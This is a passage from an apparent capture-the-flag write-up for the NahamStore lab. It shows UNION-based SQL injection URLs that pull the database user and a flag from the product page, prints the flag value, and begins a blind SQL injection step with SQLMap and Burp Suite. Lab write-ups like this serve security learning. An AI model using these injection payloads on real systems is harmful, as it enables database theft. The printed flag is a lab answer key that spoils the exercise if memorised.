 		![15sqli1-1](imgs/15sqli1-1.png)

- Exploit:
	- `http://nahamstore.thm/product?id=-1%20union%20all%20select%201,user(),3,4,5`
		```
		nahamstore_sqli1@localhost
		```
	- `http://nahamstore.thm/product?id=-1%20union%20all%20select%201,flag,3,4,5%20from%20sqli_one`
		![15sqli1-2](imgs/15sqli1-2.png)

		- Get the flag: `{d890234e20be48ff96a2f9caab0de55c}`


SQL Injection 2: Blind SQLi
- Let's use the SQLMap for the quick blind sql injection
- First, use burpsuite to get the req information by send POST payloads on `http://nahamstore.thm/returns`